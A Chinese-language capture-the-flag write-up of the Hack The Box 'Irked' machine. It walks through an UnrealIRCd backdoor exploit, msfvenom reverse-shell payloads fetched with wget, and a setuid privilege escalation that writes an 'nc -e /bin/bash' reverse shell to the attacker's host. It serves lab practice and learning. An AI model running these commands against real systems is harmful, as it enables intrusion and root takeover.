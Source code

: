 ```yaml
---
title: k-secret
categories:
- training
tags:
- training
---
```

## info:

```
nmap -sS -Pn IP
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp  open  http    Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind 2-4 (RPC #100000)


22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
111/tcp   open  rpcbind 2-4 (RPC #100000)
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
49074/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd

```
## 80
```
<img src=irked.jpg>
<br>
<b><center>IRC is almost working!</b></center>
```
Apache/2.4.10

10.10.10.117/manual/images/


## IRC
```
searchsploit UnrealIRCd

浏览器访问以下地址，6697获得了一条信息：“ERROR :Closing Link: [10.10.14.13] (Throttled: Reconnecting too fast) -Email djmardov@irked.htb for more information.”
10.10.10.117:6697
10.10.10.117:8067
10.10.10.117:65534

search UnrealIRCd
```
## irc.rc
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-10/3.PNG)

msfconsole -r irc.rc

```
use exploit/unix/irc/unreal_ircd_3281_backdoor
set RHOST IP
set RPORT 6697
run

shell
python -c 'import pty; pty.spawn("/bin/bash")'
```
获得一个shell
`find . -name "user.txt" 2>/dev/null` 尝试获得user.txt，权限不够
## 提权
```
os : Linux irked 3.16.0-6-686-pae #1 SMP Debian 3.16.56-1+deb8u1 (2018-05-08) i686 GNU/Linux

pwd:  /home/ircd/Unreal3.2

whoami : ircd

cat /etc/passwd | grep home
djmardov:x:1000:1000:djmardov,,,:/home/djmardov:/bin/bash
ircd:x:1001:1001::/home/ircd:/bin/sh

cd /;find . -name "user.txt" 2>/dev/null
./home/djmardov/Documents/user.txt

python -c 'import pty; pty.spawn("/bin/bash")'
su djmardov

cat unrealircd.conf | grep pass
获得疑似口令：f00Ness、f00、moocowsrulemyworld、LiNk

find . -name "id_rsa" 2>/dev/null
find . -name "*.pub"找到了一个路径，查看ssh配置文件

gcc -v
gcc version 4.9.2 (Debian 4.9.2-10+deb8u1)

sudo not found
```
#### 尝试1
[Linux Kernel 3.0 < 3.3.5](https://www.exploit-db.com/exploits/38390)
提权失败
![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-10/4.PNG)

`use post/multi/recon/local_exploit_suggester`没有发现任何可用exp

#### 尝试2
`msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.14.7 LPORT=7766 -f elf -o payload.elf`

wget http://10.10.14.7/payload.elf

![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-10/1.PNG)

local_exploit_suggester，有收获，但exp执行不成功
```
[+] 10.10.10.117 - exploit/linux/local/network_manager_vpnc_username_priv_esc: The target service is running, but could not be validated.
[+] 10.10.10.117 - exploit/linux/local/pkexec: The target service is running, but could not be validated.
[*] Post module execution completed
```
#### 尝试3
```
python -m SimpleHTTPServer 8088
wget http://10.10.14.7:8088/linux-exploit-suggester.sh

./linux-exploit-suggester.sh

Available information:

Kernel version: 3.16.0
Architecture: i686
Distribution: debian
Distribution version: 8
Additional checks (CONFIG_*, sysctl entries, custom Bash commands): performed
Package listing: from current OS

---
searchsploit linux 3.16

- 尝试shell脚本提示可能有的漏洞dirtyc0w.c
- CVE-2017-7533
失败
```
#### 尝试4
```
root@irked:/tmp# file /usr/bin/viewuser
file /usr/bin/viewuser
/usr/bin/viewuser: setuid ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=69ba4bc75bf72037f1ec492bc4cde2550eeac4bb, not stripped

strings /usr/bin/viewuser
发现里面有一个/tmp/listusers，查看一下是ascii字符，内容为/bin/bash

---

file /tmp/listusers
/tmp/listusers: ASCII text

cat /tmp/listusers
/bin/bash

---

ls -al /tmp/listusers
-rwxr-xr-x 1 djmardov djmardov 10 Mar  9 14:58 /tmp/listusers

/usr/bin/viewuser
cd /usr/bin/; ./viewuser

This application is being devleoped to set and test user permissions
It is still being actively developed 它仍在积极开发中
(unknown) :0           2019-03-09 14:53 (:0)

rm /tmp/listusers
./viewuser 
```

![11](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-10/11.PNG)

---

`ps -ef | grep viewuser`

![12](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-10/12.PNG)

虽然是以ircd用户运行的viewuser，可以看到进程是以root用户执行的

---

```
whereis nc
nc -h
echo "/bin/bash  nc -e /bin/bash 10.10.14.7 2233" >/tmp/listusers
cat /tmp/listusers

/bin/bash  nc -e /bin/bash 10.10.14.7 2233

本地运行nc -lnvp 2233

cd /usr/bin/; ./viewuser
结果：sh: 1: /tmp/listusers: Permission denied

ls -al /tmp/listusers
-rw------- 1 root ircd 43 Mar 10 03:54 /tmp/listusers

chmod +x /tmp/listusers

ls -al /tmp/listusers
-rwx------  1 root ircd   43 Mar 10 03:58 listusers

cd /usr/bin/; ./viewuser
结果
/bin/nc: /bin/nc: cannot execute binary file

nc -e /bin/bash 10.10.14.7 2233
```

![13](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-10/13.PNG)


